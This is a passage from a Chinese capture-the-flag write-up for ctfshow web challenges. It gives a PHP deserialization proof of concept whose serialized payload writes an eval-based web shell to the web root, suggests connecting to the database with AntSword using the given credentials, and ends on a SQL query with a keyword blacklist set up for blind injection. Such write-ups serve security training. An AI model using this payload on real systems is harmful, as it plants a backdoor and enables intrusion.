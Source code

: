 
可以写马

poc：

```php
<?php
class db{
    public $log;
    public function __construct(){
        $this->log=new dbLog();
    }
}

class dbLog{
    public $content='<?php eval($_POST[1]);?>';
    public $log='/var/www/html/a.php';
}

$a = new db();
echo urlencode(serialize($a));

# O%3A2%3A%22db%22%3A1%3A%7Bs%3A3%3A%22log%22%3BO%3A5%3A%22dbLog%22%3A2%3A%7Bs%3A7%3A%22content%22%3Bs%3A24%3A%22%3C%3Fphp+eval%28%24_POST%5B1%5D%29%3B%3F%3E%22%3Bs%3A3%3A%22log%22%3Bs%3A19%3A%22%2Fvar%2Fwww%2Fhtml%2Fa.php%22%3B%7D%7D
```

![](https://i.loli.net/2021/11/19/KsTO1LlbvgRNf2S.png)





## 494、495

同上，但flag在数据库里，可以蚁剑啥的连一下数据库，配置信息都给了

```php
class db{
	public $username='root';
	public $password='root';
	public $port='3306';
	public $addr='127.0.0.1';
	public $database='ctfshow';
```

![](https://i.loli.net/2021/11/19/17NouvRM5iJkBzt.png)



## 496-bool盲注

index.php

```php
if(!preg_match('/or|file|innodb|sys|mysql/i', $username)){
			$sql = "select username,nickname from user where username = '".$username."' and password='".md5($password)."' order by id limit 1";
			$db=new db();
			$user=$db->select_one_array($sql);
		}
```
